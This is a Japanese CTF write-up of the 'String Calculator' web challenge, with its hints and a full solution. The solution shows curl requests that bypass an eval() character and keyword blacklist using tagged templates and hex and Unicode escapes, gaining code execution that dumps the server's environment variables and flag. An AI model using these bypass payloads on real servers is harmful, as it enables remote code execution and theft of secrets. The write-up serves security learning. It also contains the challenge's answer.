

# String Calculator:Web:69.02pts
文字列結合に対応している電卓サイトを作ってみたよ！  
  
サイト → [https://string-calculator.web.cpctf.space/](https://string-calculator.web.cpctf.space/)  
  
ソースコード → [https://files.cpctf.space/string-calculator.zip](string-calculator.zip)  

**Hint1**  
この電卓の計算ロジックは `eval()` 関数で実装されています。`eval()` 関数は、文字列を JavaScript コードとして評価し、実行することができます。これには危険性があり、そのまま使うと計算だけでなくサーバーに好きなコードを実行させることができてしまいます。  

- [eval() - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/eval)

そのため、この問題では入力に対し一部の記号やキーワードをブロックすることで悪意のあるコードの実行を対策しています。しかし、この対策で悪意のある入力を完全に防げているのでしょうか？  
**Hint2**  
`.` や `[]` がブロックされていてプロパティアクセスができないため、`process.env.FLAG` にアクセスして直接フラグを取得することはできません。  
そこで、`getFlag()` 関数が実行してフラグを取得することを考えましょう。しかし `()` がブロックされているため、`()` を使わずに `getFlag` を呼ぶ必要があります。  
**Hint3 (解法)**  
実は、JavaScript には `()` を使わずに関数を呼ぶ方法として、`new` 演算子やタグ付きテンプレートを使う方法があります。  

- [new 演算子 - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Operators/new)  
- [タグ付きテンプレート - テンプレートリテラル (テンプレート文字列) - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Template_literals#%E3%82%BF%E3%82%B0%E4%BB%98%E3%81%8D%E3%83%86%E3%83%B3%E3%83%97%E3%83%AC%E3%83%BC%E3%83%88)  

```js
function func() {
  this.hoge = "HOGE";
  return "FUGA";
}

console.log(new func); // { hoge: 'HOGE' }
console.log(func``); // 'FUGA'
```
この問題の `getFlag()` 関数はフラグを「返す」ため、タグ付きテンプレートを使うことでフラグを取得することができます。

# Solution
アクセスすると、文字列処理もできる計算機という謎のものが動いている。  
  
ひとまずブラックボックスで攻略することを目指す。  
以下のように試すと、`console+""`で`"[object console]"`が返ってきたため、おそらくJavaScriptが動いているようだ。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '1+1'
2
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'console+""'
"[object console]"
```
ここからRCEでflag.txtを読むか、/proc/self/environなど環境変数を取得すればよさそうだ。  
JavaScriptでは`process.env`で環境変数が取れるため、実行してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process.env'
Error: Invalid characters in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process'
TypeError: Converting circular structure to JSON
    --> starting at object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    |     index 0 -> object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    --- index 0 closes the circle
```
`Invalid characters in input`と怒られる。  
`process`はエラーになるが動くので`.`がブラックリストに入っているのだろう。  
ここで`` Function`console.log(1)``` ``のようにXSSするテクニックを思い出す。  
呼び出す関数はテンプレートリテラルの中なのでHexでのエスケープで`` Function`console\x2Elog(1)``` ``ともできる。  
これを使えば`` Function`return process\x2eenv``` ``のように`.`を回避できそうだ。  
以下のように試してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'Function`return process\x2eenv```'
Error: Invalid keywords in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '`return process\x2eenv```'
TypeError: "return process.env" is not a function
```
`Invalid keywords in input`と新たな怒られが発生した。  
どうやらキーワードとして、`Function`も禁止されているらしい。  
ここでさらに、JavaScriptではUnicodeでのエスケープも使えることを思い出す。  
`Function`を`\u0046unction`としてやればよい。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '\u0046unction`return process\x2eenv```'
{"npm_config_user_agent":"pnpm/10.8.0 npm/? node/v23.10.0 linux x64","NODE_VERSION":"23.10.0","HOSTNAME":"a263ceacb404","YARN_VERSION":"1.22.22","npm_node_execpath":"/usr/local/bin/node","SHLVL":"1","HOME":"/root","COREPACK_ROOT":"/usr/local/lib/node_modules/corepack","COREPACK_ENABLE_DOWNLOAD_PROMPT":"1","npm_config_registry":"https://registry.npmjs.org/","npm_config_node_gyp":"/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node_modules/node-gyp/bin/node-gyp.js","PATH":"/usr/src/app/node_modules/.bin:/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node-gyp-bin:/usr/src/app/node_modules/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","npm_package_name":"string-calculator","NODE":"/usr/local/bin/node","npm_config_frozen_lockfile":"","npm_lifecycle_script":"node server.js","npm_package_version":"1.0.0","npm_lifecycle_event":"start","npm_config_verify_deps_before_run":"false","npm_execpath":"/root/.cache/node/corepack/v1/pnpm/10.8.0/bin/pnpm.cjs","PWD":"/usr/src/app","npm_command":"run-script","PNPM_SCRIPT_SRC_DIR":"/usr/src/app","FLAG":"CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}","NODE_ENV":"production","INIT_CWD":"/usr/src/app"}
```
環境変数の中から、flagが得られた。  
ソースを読むと、どうやら`getFlag`なるものがあったらしいが必要なかった。  

## CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}